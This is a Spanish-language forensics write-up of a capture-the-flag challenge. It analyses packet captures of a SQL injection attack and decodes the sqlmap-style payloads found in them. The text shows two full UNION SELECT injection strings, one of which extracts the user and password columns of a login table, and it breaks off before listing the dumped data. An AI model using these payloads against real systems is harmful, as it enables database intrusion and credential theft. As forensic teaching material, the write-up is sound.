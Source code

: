 ![Academia Hacker](https://ch4m17ux.github.io/img/posts/academia-hacker/reto32-1.png)

Si nos fijamoos en el paquete número **16** se hace una petición `POST` al recurso “/html/index.php” con parámetros `GET` que contiene lo que parece una sentencia SQL, aparecen palabras del tipo `SELECT` y `UNION`:

![Academia Hacker](https://ch4m17ux.github.io/img/posts/academia-hacker/reto32-2.png)

Si buscamos dentro del tráfico palabras típicas de consultas a bases de datos como SELECT, encontramos que existen muchos paquetes que contienen esa cadena, analizamos los de mayor tamaño para ver la respuesta:

![Academia Hacker](https://ch4m17ux.github.io/img/posts/academia-hacker/reto32-3.png)

Decodificamos el payload de la petición POST y obtenemos:

```bash
email=admin@admin.com'/**/UNION/**/ALL/**/SELECT/**/CONCAT(0x716b717a7
1,0x716b727770446663716e7571674d5642766a6645586d636145457072535778494a
4d63595a567854,0x717a7a6271),NULL,NULL/**/FROM/**/(SELECT/**/0/**/AS/*
*/dSyq/**/UNION/**/SELECT/**/1/**/UNION/**/SELECT/**/2/**/UNION/**/SEL
ECT/**/3/**/UNION/**/SELECT/**/4/**/UNION/**/SELECT/**/5/**/UNION/**/S
ELECT/**/6/**/UNION/**/SELECT/**/7/**/UNION/**/SELECT/**/8/**/UNION/**
/SELECT/**/9/**/UNION/**/SELECT/**/10/**/UNION/**/SELECT/**/11/**/UNIO
N/**/SELECT/**/12/**/UNION/**/SELECT/**/13/**/UNION/**/SELECT/**/14)/*
*/AS/**/iosi#&pass=wedfc
```
Vemos que en el cuerpo de la petición aparece un parámetro email cuyo valor contiene un intento de inyección SQL, por lo que podemos determinar que existe tráfico correspondiente a un ataque SQLi. Por la complejidad de la sentencia se puede deducir que ha sido realizada con una herramienta automática como puede ser sqlmap.

En este punto vamos a analizar las respuestas del servidor para ver si hay datos exfiltrados y qué contienen. Ordenamos los paquetes y nos vamos a analizar los últimos, ya que en un ataque con herramientas automáticas los datos son exfiltrados una vez comprobada la vulnerabilidad. En el último paquete vemos la siguiente información:

![Academia Hacker](https://ch4m17ux.github.io/img/posts/academia-hacker/reto32-4.png)

Parece un volcado de los datos de la tabla loginapp.usuarios. En el que, analizando la petición descubrimos que tiene tres columnas: ALG, user y password:

```bash
email=admin@admin.com'/**/UNION/**/ALL/**/SELECT/**/CONCAT(0x717671767
1,IFNULL(CAST(ALG/**/AS/**/NCHAR),0x20),0x667661736868,IFNULL(CAST(`us
er`/**/AS/**/NCHAR),0x20),0x667661736868,IFNULL(CAST(password/**/AS/**
/NCHAR),0x20),0x7178717a71),NULL,NULL/**/FROM/**/loginapp.usuarios#&pa
ss=wedfc
```
Como puede observarse la petición añade una serie de caracteres en hexadecimal delante y detrás de cada resultado, por lo que vamos a analizar dichas cadenas para poder obtener los resultados exactos:

```bash
┌──(root@kali)-[~/]
└─# python3
Python 3.9.1+ (default, Feb 5 2021, 13:46:56) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> bytes.fromhex('7176717671').decode('utf-8')
'qvqvq'
>>> bytes.fromhex('667661736868').decode('utf-8')
'fvashh'
>>> bytes.fromhex('7178717a71').decode('utf-8')
'qxqzq'
```
Quitando esas cadenas de la respuesta del servidor tenemos los siguientes datos:
